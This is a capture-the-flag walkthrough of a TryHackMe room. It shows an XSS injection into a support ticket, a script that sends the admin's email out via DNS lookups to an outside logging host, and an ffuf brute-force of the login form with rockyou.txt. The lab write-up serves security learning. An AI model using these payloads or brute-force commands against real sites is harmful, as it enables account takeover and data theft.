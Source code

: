 # 84 - That's The Ticket (XSS, DNS Exfilteration with XSS, Bruteforce Http Login forms with FFUF)

Room Link --> [https://tryhackme.com/room/thatstheticket](https://tryhackme.com/room/thatstheticket)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sC -sV -p- 10

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
{% endcode %}

We visit the main webpage, create a new account and login.

<figure><img src=".gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

We can see the page is vulnerable to XSS

```
</textarea><script>alert(1)</script>
```

<figure><img src=".gitbook/assets/image (570).png" alt=""><figcaption></figcaption></figure>

```
Hint: Our HTTP & DNS Logging tool on  may come in useful!
```

### Exploiting DNS Lookups <a href="#f8f9" id="f8f9"></a>

Using the found XSS bug we can use this to make callbacks to our machine and from the hint we got earlier. [http://10.10.10.100](http://10.10.10.100/) This is a DNS service that logs DNS calls for us. We can also use a site like this, [http://pingb.in/](http://pingb.in/)

Knowing we can use XSS let's try a call back to the DNS service.

{% code overflow="wrap" %}
```
</textarea><img src=http://0139bf8e80be1a183315890fcc0017f6.log.tryhackme.tech>
```
{% endcode %}

This gets the call back four times, 3 from us and once from the server (admin is looking)

<figure><img src="https://miro.medium.com/v2/resize:fit:481/0*btFJ-MTpEf3-u7oK.png" alt="" height="350" width="700"><figcaption></figcaption></figure>

Now let's try to get some data back!

I tried cookies for a while but realised we only needed the admin's email (always keep in mind the scope and spec!).

#### Exfilteration

* So, we must exfiltrate the admin's email via DNS lookups.
* We can fetch email from the innerHTML of the `email` DOM element.
* And then append the email as a subdomain. (Classic DNS exfiltration)!
  * **NOTE:** We need to replace the `@` and `.` characters in the email.
* Submit the following script as the ticket:

```markup
</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'X');
email = email.replace('.', 'Y');
fetch('http://'+ email + '.c4af05d3cc694b47b3a742fcfa04f364.log.tryhackme.tech');
</script>
<textarea>
```

We see the admin email and ours!

Now we can brute force the login page for the admin's password as we have the email now.

<figure><img src=".gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

```
IT_Support Email : adminaccount@itsupport.thm
```

### Bruteforcing the Admin Password

Using FFUF

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/rockyou.txt  -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.8.153/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded" 

123123
```
{% endcode %}

We got the password and the Flag.

Done!
